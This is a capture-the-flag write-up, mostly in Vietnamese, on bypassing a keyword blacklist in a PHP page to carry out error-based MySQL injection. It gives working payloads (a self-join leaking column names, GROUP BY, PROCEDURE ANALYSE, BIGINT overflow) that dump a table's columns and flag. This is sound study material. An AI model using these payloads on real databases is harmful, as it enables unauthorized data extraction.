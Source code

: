 # Error based MySql injection "heavy blacklists"

```php
if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extractxml|xml|betweent|count|column|sleep|benchmark|\<|\>|\=/is', $_GET['id'])){
	die('...');
}
else{
	// .....
	if(!$run_query) {
		echo mysqli_error($conn);
	}
	else{
		// .....
	}
}
```

## Intended

### MySQL limit double column error
Ta biết trước table_name là `flag_here_hihi`, có 3 column(.,.,.)
```sql
?id=1*(select * (select * from flag_here_hihi as a join flag_here_hihi as b using(id)) as c)
```
- Ta không thể join 2 bảng cùng tên với nhau nên ta cần đổi tên và join lại thành 1 bảng. Sau khi join ta có bảng c với 6 columns
- Vì ta không biết tên column cần query nên ta `select *`, khi query hit colunm đầu tiên thì không thể lấy bởi mysql thấy có 2 column duplicate nên báo lỗi tên column thứ nhất -> ta được `id` column.
- Để lấy tên column tiếp theo, ta dùng `using(id)` có tác dụng concat 2 column id trùng nhau lại với nhau thể nên khi tiếp tục `select *`, id column không còn lỗi dính lỗi duplicate đến column thứ 2 lại duplicate --> báo lỗi với tên column thứ 2 chính là `t_fl4g_name_su` ... tương tự ta được column thứ 3 `t_fl4g_v3lue_su`.


Có table_name, column_name --> flag

## Uninteded

### group by id
MySQL version >= 5.7.5
**dump columns**
```sql
?id=1 group by id
```
Group results thành các nhóm với nhiều thuộc tính sau đó lấy 1 thuộc tính từ group đó, tuy nhiên nhóm vừa group có nhiều thuộc tính nên mysql không biết lấy thuộc tính nào ==> dump error

### typo - procedure analyse
```sql
?id=1 limit 2,1 procedure analyse(1);
```
analyse column thứ 2(chứa flag)

### Out of range 
Vì ~0 là bigest int number --> ~0 + 1 --> mysql number out of range --> display error results

**query dump columns trong table**:
```sql
?id=1*(select ~0 + ( select 1 from (select * from flag_here_hihi limit 1 ) as a))
# BIGINT UNSIGNED value is out of range in '......'
```

- `select * from flag_here_hihi limit 1` trả về tất cả column trong table `flag_here_hihi` tuy nhiên operand chỉ được phép có 1 column nên ta đưa results câu query này thành bảng a.
- `select 1 from a` trả về `1 + ~0` trigger lỗi đồng thời dump ra các column có trong bảng a.
